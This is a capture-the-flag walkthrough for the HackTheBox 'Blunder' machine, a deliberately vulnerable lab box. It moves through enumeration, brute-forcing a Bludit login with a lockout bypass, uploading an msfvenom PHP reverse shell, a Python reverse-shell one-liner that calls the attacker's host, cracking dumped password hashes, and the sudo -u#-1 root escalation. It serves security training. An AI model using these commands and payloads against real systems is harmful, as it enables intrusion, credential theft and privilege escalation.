



# Blunder <br/>


## Enumeration

### NMAP
Let's start with the following nmap execution
<br />
```bash
nmap -sS -sV -sC -p 1-10000 -oA nmap.res -v blunder.htb
```
<br />It then yielded the following result.
<br />
```bash
# Nmap 7.80 scan initiated Sun Sep 13 13:55:12 2020 as: nmap -sS -sV -sC -p 1-10000 -oA nmap.res -v blunder.htb
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.29s latency).
Not shown: 9998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
|_http-generator: Blunder
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 13 13:57:23 2020 -- 1 IP address (1 host up) scanned in 130.83 seconds
```
<br />It turns out that the webserver is the only opened port. Let's enumerate it.

### Web Pages Enumeration

Upon visiting the website, here is the home page.<br />

<br />At a first look, it's seems to be a blog website with quite a few links around it. Let's do web files/dirs enumeration against it using [ffuf](https://github.com/ffuf/ffuf)
#### FFUF Result using dirb/common.txt
Let's run ffuf fuzzer against it to discover some web files or hidden directories. Let's look for **```.php```**,**```.txt```**, and **```.html```** files.
<br />
```bash
$ ffuf -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt -u http://blunder.htb/FUZZ -o ffuf-res.txt
```
<br />By running the following command, we can check what files or directories found by the fuzzer.
<br />
```bash
$ python3 -m json.tool ffuf-res.txt | grep "FUZZ.*$" -o
FUZZ -o ffuf-res.txt",
FUZZ": ".html"
FUZZ": ""
FUZZ": ".hta"
FUZZ": ".php"
FUZZ": ".hta.php"
FUZZ": ".htaccess.txt"
FUZZ": ".hta.html"
FUZZ": ".hta.txt"
FUZZ": ".htaccess"
FUZZ": ".htaccess.html"
FUZZ": ".htaccess.php"
FUZZ": ".htpasswd"
FUZZ": ".htpasswd.php"
FUZZ": ".htpasswd.html"
FUZZ": ".htpasswd.txt"
FUZZ": "0"
FUZZ": "about"
FUZZ": "admin"
FUZZ": "cgi-bin/"
FUZZ": "install.php"
FUZZ": "LICENSE"
FUZZ": "robots.txt"
FUZZ": "robots.txt"
FUZZ": "server-status"
FUZZ": "todo.txt"
FUZZ",
FUZZ",
FUZZ -o ffuf-res.txt",
```
<br />We can see some interesting files in here but we are only interested at **```todo.txt```** and **```/admin```**
##### Username in todo.txt
Let's check **```todo.txt```**.<br />

<br />It seems that a person named **```fergus```** is part of the development team. It can be a potential username late for bruteforcing credentials if needed.
  
##### Bludit Page through /admin
Another thing to look at is the **```/admin```**. Upon visiting, we are greeted with this page.<br />

<br />We've got a possible username earlier! We just have to find the password.
## Bruteforcing Login Bludit With Custom Wordlist

### Getting All Alnum Strings From Homepage
We will use the alphanumerical strings we have from the homepage html and create a custom password wordlist from it. We can use the following commands to do just that.
<br />
```bash
$ curl http://blunder.htb/ | grep -P "[a-zA-Z0-9]+" -o | sort -u | uniq > wordlist.txt
```
### Bruteforcing to Bludit Login
Now that we have a username and a password list, let's create a bruteforcing script for bludit login. Also, we need to be careful about the bruteforce mitigation done by the bludit.

#### Bypassing The Bruteforce Mitigation
There is an existing script for bruteforce mitigation bypass. Can be found [here](https://rastating.github.io/bludit-brute-force-mitigation-bypass/). It's cool! Please, give it a read :D. (TL;DR - X-Forwarded-For header is being checked if is set and thus used for locking out. It can be spoofed thus the lockout count goes to the spoofed IP instead of our original IP).<br />
Let's try it!
<br />
```bash
python3 bruteforce.py users.txt wordlist.txt
```
<br />
**_Note: I modified the original code to accept a users list file and passwords list file and then submit the contents. If you want to check it out, you can go [here](https://github.com/Altelus1/Hacking_Adventures/blob/master/HackTheBox/Blunder/bruteforce.py)_**.
<br/>After a while, we got this
<br />
```bash
...
[*] Trying: fergus:resolution
[*] Trying: fergus:resolutions
[*] Trying: fergus:Richard
[*] Trying: fergus:Right
[*] Trying: fergus:Robots
[*] Trying: fergus:RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.

```
<br />Let's check the credentials.<br />

<br />It worked!

## Bludit Vulnerability

### Directory Traversal Vulnerability + File Upload
It turns out this version of Bludit is vulnerable to Directory Traversal and File Upload. The POC can be found [here](https://www.exploit-db.com/exploits/48701)

### Creating a PHP Reverse Payload To Be uploaded and .htaccess
Once we downloaded the file, we have to craft **_PHP Reverse Shell_** to be uploaded with an extension of **```png```**. To craft:
<br />
```bash
msfvenom -p php/reverse_php LHOST=10.10.14.30 LPORT=4444 -f raw -b '"' > bg2.png
echo -e "<?php $(cat bg2.png)" > bg2.png
```
<br />Now, we need to create the .htaccess to execute png files as php files. To create:
<br />
```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```
<br />These instructions are also available at the POC script.

### Setting up POC
Now, we have to set the stuff inside the POC script. Set the following:
<br />
```bash
...
url = 'http://blunder.htb' 
username = 'fergus'
password = 'RolandDeschain'
```

### Executing POC

#### Set Netcat Listener
Set a Listener for our reverse shell:
<br />
```bash
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
#### Execute the Python POC Script
The first line is the execution and the following are the result.
<br />
```bash
$ python3 48701.py 
cookie: 88idvf1680258henlbbtv5dj35
csrf_token: f5781f263dbc70342153aef5aa39d9aed33f71cb
Uploading payload: bg2.png
Uploading payload: .htaccess
```
<br />Now, we have to trigger the reverse shell.
#### Triggering Reverse Shell
To trigger our payload, we have to go to **```/bl-content/tmp/temp/bg2.png```**. After that, we should be able to receive a shell to our netcat listener.
<br />
```bash
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.191.
Ncat: Connection from 10.10.10.191:60720.
```

### Reverse Shell For Better TTY Using Python3
After receiving the shell, we will have a limited tty. Let's spawn a better tty. Let's another netcat listener.
<br />
```bash
nc -lvp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
```
<br />And at out current shell, we'll use the following python command:
<br />
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
<br />And here is what we should be receiving from our new netcat listener.
<br />
```bash
$ nc -lvp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.191.
Ncat: Connection from 10.10.10.191:57214.
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$
```
<br />Now we have a better tty!

## Privesc Enumeration as www-data
Let's just snoop around in our web directory. After snooping around, we can actuall get 2 password hashes.

### Password hash in bludit-3.9.2/bl-content/databases
We can get that password hash from **```/var/www/bludit-3.9.2/bl-content/databases/users.php```**
<br />
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```
<br />We already knew fergus' password so let's collect the admin one

### Password hash in bludit-3.10.0a/bl-content/databases
Just outside of bludit-3.9.2, there is another bludit version 3.10.0a. There is also another password hash in the same file.
<br />
```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
<br />It's for Hugo. Hugo is part of the system user if we check **```/home```** and **```/etc/passwd```**:
<br />
```bash
www-data@blunder:/$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Apr 27 14:31 .
drwxr-xr-x 21 root  root  4096 Apr 27 14:09 ..
drwxr-xr-x 16 hugo  hugo  4096 May 26 09:29 hugo
drwxr-xr-x 16 shaun shaun 4096 Apr 28 12:13 shaun
www-data@blunder:/$ cat /etc/passwd  
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
geoclue:x:121:126::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:122:127:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:123:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:124:129:Gnome Display Manager:/var/lib/gdm3:/bin/false
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
...
```
<br />If we are able to crack it, we can switch to user Hugo 

## Cracking Found Hashes with crackstation.net
We collected our hashes and stored in **```hashes.txt```**:
<br />
```bash
$ cat hashes.txt 
admin:bfcc887f62e36ea019e3295aafb8a3885966e265
hugo:faca404fd5c0a31cf1897b823c695c85cffeb98d
```
<br />Let's crack it. Let's go to [crackstation.net](https://crackstation.net/) and let them crack our hashes there.<br />

<br />It was able to crack Hugo's password but not the admin one. Let's try to switch user to Hugo.

## Escalating from www-data to hugo
Let's switch to Hugo
<br />
```bash
www-data@blunder:/$ su hugo
su hugo
Password: Password120
whoami
hugo
python3 -c "import pty; pty.spawn('/bin/bash')"
hugo@blunder:/$ 
```
<br />It worked! At this point, we can now get the user flag.
<br />
```bash
hugo@blunder:/$ cd ~
cd ~
hugo@blunder:~$ ls -la
ls -la
total 80
drwxr-xr-x 16 hugo hugo 4096 May 26 09:29 .
drwxr-xr-x  4 root root 4096 Apr 27 14:31 ..
lrwxrwxrwx  1 root root    9 Apr 28 12:13 .bash_history -> /dev/null
-rw-r--r--  1 hugo hugo  220 Nov 28  2019 .bash_logout
-rw-r--r--  1 hugo hugo 3771 Nov 28  2019 .bashrc
drwx------ 13 hugo hugo 4096 Apr 27 14:29 .cache
drwx------ 11 hugo hugo 4096 Nov 28  2019 .config
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Desktop
...
drwx------  2 hugo hugo 4096 Apr 27 14:30 .ssh
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Templates
-r--------  1 hugo hugo   33 Oct 17 09:31 user.txt
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Videos
```

## Privesc Enumeration as hugo

### List Sudo privileges
We can list our sudo privileges:
<br />
```bash
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
<br />It looks like we can sudo commands but just not root. However, we can bypass this.

## Sudo Vulnerability
We can bypass the sudo config and it is described [here](https://www.exploit-db.com/exploits/47502)

## Escalating from hugo to root

### Sudo Exploit
To exploit, run the following command:
<br />
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo#
```
<br />We are now root! At this point, we can now retrieve the root flag
<br />
```bash
root@blunder:/# cd /root
cd /root
root@blunder:/root# ls -la
ls -la
total 36
drwx------  6 root root 4096 Apr 28 12:13 .
drwxr-xr-x 21 root root 4096 Apr 27 14:09 ..
lrwxrwxrwx  1 root root    9 Apr 28 12:13 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwx------  6 root root 4096 Nov 27  2019 .cache
drwx------  8 root root 4096 Nov 27  2019 .config
drwx------  3 root root 4096 Nov 27  2019 .dbus
drwxr-xr-x  3 root root 4096 Nov 27  2019 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
-r--------  1 root root   33 Oct 17 09:31 root.txt
root@blunder:/root#
```
<br />Thank you for reading!
<br />
## Sources:
- https://www.exploit-db.com/exploits/47502
- https://crackstation.net/
- https://rastating.github.io/bludit-brute-force-mitigation-bypass/
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.exploit-db.com/exploits/48701

